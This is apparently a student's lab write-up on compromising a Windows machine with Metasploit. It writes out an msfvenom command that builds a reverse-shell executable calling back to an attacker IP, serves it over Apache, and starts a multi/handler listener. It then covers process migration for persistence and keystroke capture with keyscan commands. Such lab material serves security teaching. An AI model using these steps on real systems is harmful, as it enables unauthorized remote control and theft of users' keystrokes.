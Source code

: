 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
```
NAME: SANJAY S
REG.NO: 212223040184
```

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![Screenshot 2025-04-23 231505](https://github.com/user-attachments/assets/366085f9-9355-4b6e-a9d5-eddce3a17cef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![Screenshot 2025-04-23 234602](https://github.com/user-attachments/assets/12172145-5ee1-4baa-bba9-44b99fb41c47)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2025-04-23 234612](https://github.com/user-attachments/assets/654dbc15-70c8-4009-8e79-07e54ac7967c)

Start apache server sudo systemctl apache2 start

![Screenshot 2025-04-23 234617](https://github.com/user-attachments/assets/17a731b8-06c7-45d9-b24d-9c6ea652f966)

Check the status of apache2

![Screenshot 2025-04-23 234710](https://github.com/user-attachments/assets/d726d5a1-18b3-4af3-872a-9cd842705320)

## Output:

![Screenshot 2025-04-23 231846](https://github.com/user-attachments/assets/b63927bc-8631-4e08-8fc0-67b50ebc2a9f)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-23 235303](https://github.com/user-attachments/assets/e20ecfd2-220b-4578-8ba6-6083215a1117)

Starting a command and control Server use multi/handler
![Screenshot 2025-04-23 235431](https://github.com/user-attachments/assets/ec0bda09-1683-443f-b735-05c14a922c31)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![Screenshot 2025-04-23 235454](https://github.com/user-attachments/assets/abe01f92-87ad-432d-9ebe-33b53401d9a3)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2025-04-24 000012](https://github.com/user-attachments/assets/2d0f4282-85a8-49e0-810a-5d2b096e5d83)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2025-04-24 000031](https://github.com/user-attachments/assets/48fdbae6-feb7-4322-877c-83f4038e5951)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-24 000052](https://github.com/user-attachments/assets/b8b5e358-55f6-4956-849d-c9ffa3ca016c)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2025-04-24 000105](https://github.com/user-attachments/assets/1b2abe7f-e44c-42b5-9d24-97415685cecb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
